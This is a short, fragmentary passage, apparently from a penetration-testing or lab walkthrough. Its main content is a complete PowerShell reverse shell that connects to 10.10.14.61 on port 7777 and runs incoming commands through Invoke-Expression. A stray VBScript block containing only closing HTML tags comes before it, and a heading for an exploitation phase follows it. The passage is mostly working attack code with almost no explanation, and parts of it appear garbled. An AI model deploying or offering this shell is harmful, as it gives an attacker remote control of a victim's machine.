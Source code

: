 ```VBScript
</body>
</html>
```

```PowerShell
$h = '10.10.14.61'
$p = 7777
$c = [System.Net.Sockets.TcpClient]::new($h, $p)
$s = $c.GetStream()
$w = [System.IO.StreamWriter]::new($s)
$pr = ("PS " + (Get-Location).Path + "> ")
$w.Write($pr)
$w.Flush()
while ($c.Connected) {
    try {
        $b = New-Object byte[] 1024
        $r = 0
        $cmd = ""
        while ($s.DataAvailable -and ($r = $s.Read($b, 0, $b.Length))) {
            $cmd += [Text.Encoding]::ASCII.GetString($b, 0, $r)
        }
        if ($cmd.Trim()) {
            $res = try {
                Invoke-Expression $cmd 2>&1 | Out-String
            } catch {
                $_.Exception.Message
            }
            $w.WriteLine($res)
            $w.Write(("PS " + (Get-Location).Path + "> "))
            $w.Flush()
        }
    } catch {
        $w.WriteLine("ERR: " + $_.Exception.Message)
        $w.Flush()
    }
    Start-Sleep -Milliseconds 400
}
$w.Close()
$s.Close()
$c.Close()
```

### Phase 4: Exploitation (Executing Malicious Code)
